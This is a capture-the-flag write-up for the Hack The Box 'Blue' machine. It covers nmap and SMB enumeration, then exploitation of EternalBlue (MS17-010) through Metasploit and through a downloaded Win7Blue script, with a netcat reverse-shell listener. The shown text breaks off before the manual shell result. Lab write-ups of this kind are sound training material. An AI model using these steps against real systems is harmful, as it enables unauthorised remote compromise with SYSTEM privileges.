 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

```
Nmap scan report for 10.129.110.225
Host is up (0.15s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
47/tcp    filtered ni-ftp
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
2468/tcp  filtered qip-msgd
6099/tcp  filtered raxa-mgmt
9834/tcp  filtered unknown
19056/tcp filtered unknown
31232/tcp filtered unknown
33400/tcp filtered unknown
37044/tcp filtered unknown
45939/tcp filtered unknown
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
49393/tcp filtered unknown
49496/tcp filtered unknown
61199/tcp filtered unknown
61779/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/16%OT=135%CT=1%CU=35042%PV=Y%DS=2%DC=T%G=Y%TM=6505D5
OS:1D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M
OS:539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A
OS:%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sat Sep 16 16:55:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-16T16:17:27
|_  start_date: 2023-09-16T15:55:59
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-16T17:17:24+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   148.34 ms 10.10.14.1
2   148.63 ms 10.129.110.225

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't be need privilege escalation, this is because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all


Alright, wait😂. Metasploit??? well, I have some folks who would come for me if they caught me using it😂. So, we'll be doing the manual exploitation also,this is because metasploit is more of automation and all.

Well I found this great exploit, you can download from [here](https://github.com/d4t4s3c/Win7Blue)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52f2d875-b76e-4364-a85f-9d17ef713c68)

Now that we made the shell script executable, we can execute it with the command ```./Win7Blue.sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f2bd08d7-b255-4033-9117-4b1c06f3d069)

Our target is a windows 7 with a 64 bits architecture, so we'll be choosing ```3```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be5e0fe7-aba6-4d78-b910-8f888490fe02)

RHOST should be the target's ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4b29c4e8-5f08-421f-89db-415d7a678faa)

LHOST should be your tun0 ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3d763ca9-761a-4b15-b75f-7c470d64481b)

LPORT should be the port you want to listen on, before setting this ensure you have a netcat listener set up already. For example, I plan on using port ```443```, so I have my netcat listener ready 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c0e9a776-e6b8-4949-9080-2511b6b39b47)

Now, we can provide the LPORT

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2d247926-c529-498e-b6f6-53eea1bcdaca)

Checking the listener we set up,











